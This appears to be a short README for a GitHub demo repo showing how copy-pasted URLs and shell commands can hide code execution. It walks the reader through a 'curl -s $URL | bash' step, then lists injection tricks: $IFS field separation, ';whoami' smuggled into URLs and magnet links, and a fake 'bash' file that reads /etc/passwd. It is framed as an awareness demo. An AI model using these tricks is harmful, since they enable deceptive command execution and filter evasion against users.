 # latrina
Social engineering code execution with github

* go to https://raw.githubusercontent.com/kusky3/latrina/main/test''/harmless.sh
* read the content
* copy the url  
* run `curl -s $URL | bash` 
* get owned and learn to escape the urls

## other copypaste nightmares 
#### setting string variables without quotes    
`a=('a')`  
#### separating fields without spaces 
`echo$IFS$a`
#### separating fields without spaces or curly brackets
`a=('a');echo$IFS$a`  
`echo$IFS$9a`  
#### piping without pipes  
`wc -l < <(ls)`     
#### starting code execution in unescaped url without ampersand
`curl http://localhost/;whoami`
#### redirecting to a hidden exploit  
`mkdir bin;echo "cat /etc/passwd/" > bash; darkhttpd .`  
`curl -s http://localhost:8080/$0 | bash`
#### torrent magnets
`aria2c magnet:?xt=urn:btih:test&dn=linux.iso&whoami`
